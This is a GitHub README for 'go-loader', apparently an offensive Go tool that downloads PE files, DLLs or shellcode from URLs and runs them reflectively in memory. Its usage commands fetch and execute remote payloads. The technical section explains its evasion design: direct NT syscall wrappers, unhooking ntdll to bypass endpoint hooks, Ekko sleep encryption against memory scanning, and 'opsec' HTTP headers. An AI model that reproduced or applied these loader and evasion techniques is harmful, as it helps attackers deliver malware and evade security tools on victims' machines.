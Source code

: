 # go-loader

a pe/dll/shellcode loader that downloads and executes files from urls in memory

## usage
![demo](https://github.com/user-attachments/assets/9f45cf71-1578-4393-94d6-7cc5475870d3)


```bash
# execute pe file from url
go run main.go -pe -url https://example.com/calc.exe

# execute shellcode from url  
go run main.go -shellcode -url https://example.com/shellcode.bin

# execute dll from url with specific function
go run main.go -dll -url https://example.com/mydll.dll -func MyFunction

# build
go build -o loader.exe cmd/main.go
```

## technical details

this project implements full reflective loading of pe files, dlls, and shellcode directly from downloaded byte arrays in memory without ever touching disk. the core functionality includes complete pe parsing with dos/nt header validation, section mapping with proper memory permissions (rx for .text, rw for data), base relocation processing for aslr compatibility supporting both 32-bit (image_rel_based_highlow) and 64-bit (image_rel_based_dir64) relocations, and comprehensive import address table resolution including forwarded export handling that can parse "dll.function" and "dll.#ordinal" forwarder strings and resolve them across multiple dlls. the main technical challenge was go's absolutely evil garbage collector that would intermittently move or collect our downloaded buffers during pe/dll execution, causing status_invalid_handle (0xc0000008) errors and crashes. i solved this by implementing very aggressive anti-gc techniques: runtime.keepalive calls throughout execution, completely disabling gc during critical sections with debug.setgcpercent(-1), locking goroutines to os threads with runtime.lockosthread, forcing multiple gc runs before execution to clear memory, and creating dedicated pinned byte copies that stay alive throughout the entire loading process. for pe execution we allocate memory at the preferred base address when possible or use relocations when aslr forces us elsewhere, copy headers and sections correctly, fix imports and relocations, then execute via ntcreatethreadex. for dll loading we parse export tables to find functions by name or ordinal, handle complex import resolution, and can execute specific exported functions or the dll entry point. shellcode execution uses direct ntinjectselfshellcode for self-injection. the network downloader includes proper http headers for opsec and handles the downloaded data with gc-safe buffer management. all critical syscalls now go through custom nt api wrappers (ntallocatevirtualmemory, ntwritevirtualmemory, ntreadvirtualmemory, ntprotectvirtualmemory, ntfreevirtualmemory, ntunmapviewofsection, ntcreatethreadex, ntwaitforsingleobject, ntclose, ntinjectselfshellcode) instead of high-level windows apis for better opsec and edr evasion. the loader now implements ekko sleep functionality for evasive sleeping during execution - this technique suspends all threads in the current process except the main thread, encrypts the entire process image in memory using systemfunction032 (rc4), sleeps for a specified duration, then decrypts the image and resumes all threads, making static memory analysis much more difficult during sleep periods. you can also encrypt the global buffer containing the downloaded pe/dll/shellcode easily with GetGlobalBufferRegion(), see main.go for example. the syscall wrappers (now in plan9 instead of nasm) provide direct nt api access after unhooking ntdll and applying patches to bypass userland hooks, though i still had to use syscall.loadlibrary and a LOT of syscalls in ekko implementation, also a few times for import resolution since you can't avoid loading dependencies and my ldrloaddll wrapper sucks sorry guys.

## credits

- [@timwhitez/Doge-MemX](https://github.com/timwhitez/Doge-MemX) for pe loader code that i adapted
- [@scriptchildie/goDLLrefletiveloader](https://github.com/scriptchildie/goDLLrefletiveloader) for dll loading code that i fixed forwarded functions and some other small issues
- [@scriptchildie/goEkko](https://github.com/scriptchildie/goEkko) for ekko sleep implementation 
